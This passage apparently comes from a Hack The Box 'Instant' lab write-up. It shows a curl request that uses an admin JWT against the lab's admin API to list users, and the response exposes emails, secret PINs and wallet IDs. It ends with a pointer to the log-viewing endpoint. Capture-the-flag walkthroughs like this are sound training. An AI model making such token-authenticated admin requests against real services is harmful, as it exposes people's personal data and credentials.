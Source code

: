 ![](/assets/img/posts/htb/instant/figure9.png){: width="972" height="589" }
List user
```bash
$ curl -X GET 'http://swagger-ui.instant.htb/api/v1/admin/list/users' -H "Authorization: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MSwicm9sZSI6IkFkbWluIiwid2FsSWQiOiJmMGVjYTZlNS03ODNhLTQ3MWQtOWQ4Zi0wMTYyY2JjOTAwZGIiLCJleHAiOjMzMjU5MzAzNjU2fQ.v0qyyAqDSgyoNFHU7MgRQcDA0Bw99_8AEXKGtWZ6rYA"
```
{: .nolineno }
```
{
  "Status": 200,
  "Users": [
    {
      "email": "admin@instant.htb",
      "role": "Admin",
      "secret_pin": 87348,
      "status": "active",
      "username": "instantAdmin",
      "wallet_id": "f0eca6e5-783a-471d-9d8f-0162cbc900db"
    },
    {
      "email": "shirohige@instant.htb",
      "role": "instantian",
      "secret_pin": 42845,
      "status": "active",
      "username": "shirohige",
      "wallet_id": "458715c9-b15e-467b-8a3d-97bc3fcf3c11"
    },
    {
      "email": "yzx@instant.htb",
      "role": "instantian",
      "secret_pin": 12345,
      "status": "active",
      "username": "yzx",
      "wallet_id": "6f8216c2-8c6f-4437-b141-23ee1594ed0f"
    }
  ]
}
```
View log file with `/api/v1/admin/view/logs`
![](/assets/img/posts/htb/instant/figure10.png){: width="972" height="589" }